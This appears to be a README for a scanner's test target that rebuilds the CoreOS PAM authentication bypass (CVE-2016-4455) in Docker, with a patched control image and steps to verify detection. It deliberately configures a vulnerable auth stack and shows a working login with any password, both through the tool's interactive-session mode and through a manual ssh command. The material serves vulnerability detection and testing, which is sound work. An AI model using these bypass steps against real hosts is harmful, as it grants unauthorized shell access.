

# vuln-coreos-pam-permit test target



`demo.cast` is the asciinema recording behind the gif. Re-record both with
`docs/targets/record-demo.sh coreos-pam-permit` once the target is running.

This directory contains two Docker images for exercising the
`vuln-coreos-pam-permit` check: a vulnerable target and a patched control.

## Background

CoreOS Linux Alpha 1045.0.0 and 1047.0.0 enabled `pam_sss` in the system
PAM stack. The change marked both `pam_sss` and `pam_unix` as `sufficient`
and kept Gentoo's trailing `auth optional pam_permit.so`. When neither
module succeeded, PAM fell through to `pam_permit` and the login was
allowed. Any password therefore opened a session for any account, including
the password-less `core` and `operator` users. The `operator` account was
exploited in the wild within days. Alpha 1053.0.0 replaced the trailing
`pam_permit` with `pam_deny`, and affected systems were rolled back to
1032.1.0 through the update service.

References:

- [CoreOS security brief](https://web.archive.org/web/20160602013344/https://coreos.com/blog/security-brief-coreos-linux-alpha-remote-ssh-issue.html) (CVE-2016-4455)
- [LWN: A remotely exploitable hole in CoreOS Linux Alpha](https://lwn.net/Articles/688235/)
- [coreos-overlay commit 048faeb3](https://github.com/coreos/coreos-overlay/commit/048faeb3b1b1a693dec3bdb47b127b8d71c48c13) that introduced the stack

## How the check works

The check is enabled by default and runs only when both of the following
hold:

1. The server banner is exactly `SSH-2.0-OpenSSH_7.2`. CoreOS 1032 through
   1053 shipped OpenSSH 7.2p2 from Gentoo with no version addendum, and
   upstream sshd omits the portable suffix from its banner. Debian and
   Ubuntu builds announce `OpenSSH_7.2p2 ...`, FreeBSD appends its own
   suffix, and every other OpenSSH release has a different number, so none
   of those are probed.
2. The server advertises `keyboard-interactive` or `password`
   authentication. CoreOS used Gentoo's defaults (`UsePAM yes`,
   `PasswordAuthentication no`, `ChallengeResponseAuthentication yes`), so
   the bypass was reached over keyboard-interactive.

It then tries the scanned user followed by `core` and `operator`, with a
random password, over keyboard-interactive first and then password. For each
attempt it opens a session and runs `id`. A finding is recorded only when
the command runs on that session. Reaching the authentication or session
stage without a completed command is not enough. The random password and
the account that worked are cached as the session credential, so `-I first`
and `-I all` reconnect as that account even when it differs from the scanned
user.

The banner cannot distinguish 1045.0.0 from the fixed 1053.0.0, so the
session attempt is what separates a vulnerable host from a patched one.

## Files

| File | Purpose |
|------|---------|
| `Dockerfile` | OpenSSH 7.2p2 built from the upstream tarball with PAM on Ubuntu 16.04, configured with the CoreOS 104x auth stack. Vulnerable. |
| `Dockerfile.patched` | Same image with `pam_deny` closing the auth stack, as in CoreOS 1053.0.0. Not vulnerable. |
| `sshd_config` | Gentoo/CoreOS defaults: `UsePAM yes`, `PasswordAuthentication no`, `ChallengeResponseAuthentication yes`. |
| `pam.d-sshd` | The vulnerable auth stack: `pam_sss` and `pam_unix` both `sufficient`, then `pam_permit`. |
| `pam.d-sshd-patched` | The fixed auth stack: `pam_sss` and `pam_unix` both `sufficient`, then `pam_deny`. Account, password, and session stacks are identical to the vulnerable file. |

Both images carry the CoreOS accounts with disabled passwords:

| User | Shell | Password field |
|------|-------|----------------|
| core | /bin/bash | `!` |
| operator | /bin/sh | `!` |

Root is refused by `PermitRootLogin prohibit-password` before PAM runs, which
matches the affected releases. `libpam-sss` is installed but sssd is not
configured, so `pam_sss` fails exactly as it did on affected systems.

One line differs from the CoreOS files. CoreOS listed `pam_sss` in the
account stack as `[default=bad success=ok user_unknown=ignore]`. With no
sssd running, Ubuntu's pam_sss 1.13.4 (and CoreOS's 1.13.1, by its source)
returns `PAM_AUTHINFO_UNAVAIL` from that line, which `default=bad` turns
into a denial after authentication has already succeeded. Logins did
succeed on the affected releases, so both images add
`authinfo_unavail=ignore` to that account line. That keeps the account
phase neutral and leaves the outcome to the auth stack, which is the part
the advisory describes and the part that differs between the two images.

sshd is built from source rather than installed from the Ubuntu package
because Debian's banner patch always appends the portable suffix, even with
`DebianBanner no`, producing `SSH-2.0-OpenSSH_7.2p2`. The upstream build
announces `SSH-2.0-OpenSSH_7.2`, which is what CoreOS sent and what the
check gates on.

## Setup

Build the sshamble binary and both images from the repository root:

```console
$ go build -o sshamble .
$ docker build -t sshamble-coreos-pam-permit docs/targets/coreos-pam-permit
$ docker build -t sshamble-coreos-pam-permit-patched -f docs/targets/coreos-pam-permit/Dockerfile.patched docs/targets/coreos-pam-permit
```

Start the vulnerable target on port 2224 and the patched control on 2225:

```console
$ docker run -d --rm --name sshamble-coreos-pam-permit -p 2224:22 sshamble-coreos-pam-permit
$ docker run -d --rm --name sshamble-coreos-pam-permit-patched -p 2225:22 sshamble-coreos-pam-permit-patched
```

## Verify the check reports the vulnerable target

Scan with the default user. Root is refused, so the check falls back to the
`core` account:

```console
$ ./sshamble scan -p 2224 -o vuln.json 127.0.0.1
```

The log should contain:

```
level=warning msg="127.0.0.1:2224 vuln-coreos-pam-permit accepted a random password for user core via keyboard-interactive"
```

The JSON record in `vuln.json` should contain:

```json
{
  "version": "SSH-2.0-OpenSSH_7.2",
  "sessionMethod": "vuln-coreos-pam-permit",
  "sessionUser": "core",
  "sessionOutput": "uid=500(core) gid=500(core) groups=500(core)",
  "vulns": [
    {
      "id": "vuln-coreos-pam-permit",
      "proof": "CVE-2016-4455: a random password opened a session for core via keyboard-interactive. Session output: uid=500(core) gid=500(core) groups=500(core)",
      "ref": "https://web.archive.org/web/20160602013344/https://coreos.com/blog/security-brief-coreos-linux-alpha-remote-ssh-issue.html"
    }
  ]
}
```

Scanning with `-u operator` reports the same finding for `operator` on the
first attempt.

## Verify the check does not report the patched control

```console
$ ./sshamble scan -p 2225 --checks vuln-coreos-pam-permit -L debug -o patched.json 127.0.0.1
```

The debug log shows the check running on the 7.2 banner and every candidate
account being rejected:

```
level=debug msg="127.0.0.1:2225 vuln-coreos-pam-permit is running for user root"
level=debug msg="127.0.0.1:2225 vuln-coreos-pam-permit did not open a session for user root via keyboard-interactive (stage ssh-userauth): ..."
level=debug msg="127.0.0.1:2225 vuln-coreos-pam-permit did not open a session for user core via keyboard-interactive (stage ssh-userauth): ..."
level=debug msg="127.0.0.1:2225 vuln-coreos-pam-permit did not open a session for user operator via keyboard-interactive (stage ssh-userauth): ..."
```

The JSON record has no `sessionMethod` and no `vulns` entry.

## Verify the version gate

Point the check at any server with a different banner, for example a stock
Ubuntu 16.04 sshd (`SSH-2.0-OpenSSH_7.2p2 Ubuntu-4ubuntu2.10`) or any
modern OpenSSH, with `-L debug`. The log shows the skip and no
authentication attempts are made:

```
level=debug msg="HOST:PORT vuln-coreos-pam-permit skipped: server version \"SSH-2.0-OpenSSH_9.7\" does not match the affected CoreOS OpenSSH build"
```

## Verify the interactive session

The cached random password and the account it worked for are reused to open
a new session for interaction. Run a command non-interactively while
scanning as root, which exercises the fallback to `core`:

```console
$ ./sshamble scan -p 2224 --checks vuln-coreos-pam-permit -I first --interact-auto "exec id" 127.0.0.1
```

The output ends with the command result:

```
uid=500(core) gid=500(core) groups=500(core)
```

For a shell, use the default auto commands:

```console
$ ./sshamble scan -p 2224 --checks vuln-coreos-pam-permit -I first 127.0.0.1
```

## Verify manually with ssh

Any password is accepted for `core` on the vulnerable target:

```console
$ ssh -o PreferredAuthentications=keyboard-interactive \
    -o PubkeyAuthentication=no \
    -o StrictHostKeyChecking=no \
    -o UserKnownHostsFile=/dev/null \
    -p 2224 core@127.0.0.1 id
Password: (type anything)
uid=500(core) gid=500(core) groups=500(core)
```

The same command against port 2225 prints `Permission denied`.

## Unit tests

The Go tests start an in-process SSH server that offers keyboard-interactive
and/or password auth and accepts any password for non-root users, and cover
the same cases without Docker: the fallback from root to `core`, the scanned
user being tried first, password-only servers, no finding when every
password is rejected, no connection for other banners, and reuse of the
cached credential and account for interaction.

```console
$ go test ./cmd/ -run CoreOSPamPermit -v
```

## Cleanup

```console
$ docker stop sshamble-coreos-pam-permit sshamble-coreos-pam-permit-patched
```
